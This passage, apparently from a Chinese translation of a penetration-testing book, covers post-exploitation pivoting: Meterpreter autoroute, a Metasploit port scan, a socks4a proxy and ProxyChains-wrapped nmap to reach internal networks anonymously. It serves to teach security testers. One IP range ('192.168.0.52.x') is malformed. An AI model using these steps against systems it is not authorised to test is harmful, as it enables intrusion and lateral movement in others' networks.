图 11.23: 确定受损目标是否有两个不同的网络适配器

然而，攻击者的 IP 没有到达内部 IP 范围的路由；渗透测试人员在 Meterpreter 会话中可以通过运行后期利用模块`run post/multi/manage/autoroute`在受损系统上添加从 Kali 攻击框到内部网络的新路由，如图 11.24 所示。此模块将使用受损机作为桥梁：


图 11.24: 使用后期利用模块从受损目标向 Kali Linux 添加自动路由

所有从攻击者 IP 到内部 IP 范围 (`192.168.0.52.x`) 的流量现在将通过受损系统 (`192.168.0.x`) 路由。

现在我们将在后台运行 Meterpreter 会话，并尝试理解 IP 范围之外的情况，同时还要利用 Metasploit 的端口扫描器，但要使用以下模块：

```
use auxiliary/scanner/portscan/tcp 
```

要验证我们的 Kali Linux 确实具备访问目标网络的能力，您可以将 RHOSTS 设置为第二个适配器的默认网关 IP。这将使攻击者能够找到跳跃网络和设备上的服务；典型的做法是利用 Metasploit 模块中的端口扫描器，如图 11.25 所示：



图 11.25: 在跳跃网络添加自动路由后运行端口扫描

### 使用 ProxyChains

希望使用`nmap`和其他工具扫描网络主机的渗透测试人员可以通过在 Metasploit 的`post`模块中运行以下代码来利用 Metasploit 模块`socks4a`：

```
msf post(inject_host) > use auxiliary/server/socks4a
msf auxiliary(socks4a) > run
[*] Auxiliary module execution completed 
```

在运行模块后通过编辑`/etc/proxychains.conf`配置 ProxyChains 配置，并将`socks4`配置更新到端口`1080`（或您在 Metasploit 模块中设置的端口号），如图 11.26 所示：


图 11.26: 更新 socks4 配置以使用端口 1080

现在，攻击者可以通过终端直接运行`nmap`，命令为`proxychains nmap -vv -sV 192.168.1.254`。我们已经学习了如何利用 ProxyChains 执行网络扫描以保持匿名性。

# 摘要

在本章中，我们重点讨论了目标系统利用后的即时操作。我们回顾了进行快速初步评估的过程，以便对服务器和本地环境进行特征描述。我们还学习了如何使用各种后期利用工具定位感兴趣的目标文件、创建用户帐户，并进行横向提升以收集更多与其他用户相关的信息。我们重点介绍了 Metasploit 的 Meterpreter 使用方法、PowerShell Empire 工具以及 CrackMapExec，以便我们能够收集更多信息，执行横向移动和特权攻击。

在下一章中，我们将学习如何将特权从普通用户提升到最高级别，并利用在 Active Directory 环境中发现的漏洞。
